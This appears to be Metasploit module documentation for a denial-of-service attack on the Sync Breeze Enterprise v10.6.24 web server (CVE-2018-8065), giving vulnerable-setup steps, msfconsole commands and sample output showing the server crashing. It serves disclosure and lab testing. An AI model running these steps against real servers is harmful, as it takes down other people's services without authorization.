 ## Description
This module triggers a Denial of Service vulnerability in the Sync Breeze Enterprise HTTP server. It is possible to trigger 
a write access memory vialation via rapidly sending HTTP requests with large HTTP header values.  


## Vulnerable Application 
According To publicly exploit Disclosure of Sync Breeze Enterprise v10.6.24
this software is vulnerable to Denial Of Service.
read more : http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8065

**Vulnerable Application Link** 
http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.6.24.exe

## Vulnerable Application Installation Setup.
Download Application : ```http://www.syncbreeze.com/setups/syncbreezeent_setup_v10.6.24.exe```

**And Follow Sync Breeze Enterprise v10.6.24 Setup Wizard**

After the installation navigate to: ```Options->Server```

Check the box saying: ```Enable web server on port:...```

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use auxiliary/dos/http/syncbreeze_enterprise_dos`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```
  7. Do: `run`
  8. Web server will crash after 200-1000 request depending on the OS version and system memory.

## Scenarios
**TESTED AGAINST WINDOWS 7/10**
```
msf5 > use auxiliary/dos/http/syncbreeze_enterprise_dos 
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > set rport 80
rport => 80
msf5 auxiliary(dos/http/syncbreeze_enterprise_dos) > run

[*] 192.168.1.20:80 - Triggering the vulnerability
[-] 192.168.1.20:80 - Connection reset !
[+] 192.168.1.20:80 - DoS successful 192.168.1.20 is down !
[*] Auxiliary module execution completed

```